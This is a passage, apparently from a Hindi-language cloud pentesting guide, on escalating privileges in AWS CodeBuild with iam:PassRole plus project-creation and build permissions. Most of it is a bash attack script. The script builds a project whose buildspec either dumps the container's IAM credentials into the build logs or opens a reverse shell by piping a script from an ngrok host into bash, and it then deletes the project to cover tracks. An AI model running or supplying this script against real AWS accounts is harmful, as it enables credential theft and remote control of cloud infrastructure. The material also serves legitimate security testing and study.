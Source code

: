 **नोट**: इन दो कमांड के बीच का अंतर यह है:

* `StartBuild` एक विशिष्ट `buildspec.yml` का उपयोग करके एकल निर्माण कार्य को ट्रिगर करता है।
* `StartBuildBatch` आपको अधिक जटिल कॉन्फ़िगरेशन के साथ निर्माण के बैच को शुरू करने की अनुमति देता है (जैसे कई निर्माणों को समानांतर में चलाना)।

**संभावित प्रभाव:** जुड़े हुए AWS Codebuild भूमिकाओं के लिए सीधे प्रिवेस्क।

### `iam:PassRole`, `codebuild:CreateProject`, (`codebuild:StartBuild` | `codebuild:StartBuildBatch`)

एक हमलावर जिसके पास **`iam:PassRole`, `codebuild:CreateProject`, और `codebuild:StartBuild` या `codebuild:StartBuildBatch`** अनुमतियाँ हैं, वह **किसी भी codebuild IAM भूमिका के लिए प्रिविलेज़ बढ़ा सकेगा** एक चल रही भूमिका बनाकर।

{% tabs %}
{% tab title="Example1" %}
```bash
# Enumerate then env and get creds
REV="env\\\\n      - curl http://169.254.170.2\$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"

# Get rev shell
REV="curl https://reverse-shell.sh/4.tcp.eu.ngrok.io:11125 | bash"

JSON="{
\"name\": \"codebuild-demo-project\",
\"source\": {
\"type\": \"NO_SOURCE\",
\"buildspec\": \"version: 0.2\\\\n\\\\nphases:\\\\n  build:\\\\n    commands:\\\\n      - $REV\\\\n\"
},
\"artifacts\": {
\"type\": \"NO_ARTIFACTS\"
},
\"environment\": {
\"type\": \"LINUX_CONTAINER\",
\"image\": \"aws/codebuild/standard:1.0\",
\"computeType\": \"BUILD_GENERAL1_SMALL\"
},
\"serviceRole\": \"arn:aws:iam::947247140022:role/codebuild-CI-Build-service-role-2\"
}"


REV_PATH="/tmp/rev.json"

printf "$JSON" > $REV_PATH

# Create project
aws codebuild create-project --cli-input-json file://$REV_PATH

# Build it
aws codebuild start-build --project-name codebuild-demo-project

# Wait 3-4 mins until it's executed
# Then you can access the logs in the console to find the AWS role token in the output

# Delete the project
aws codebuild delete-project --name codebuild-demo-project
```
{% endtab %}
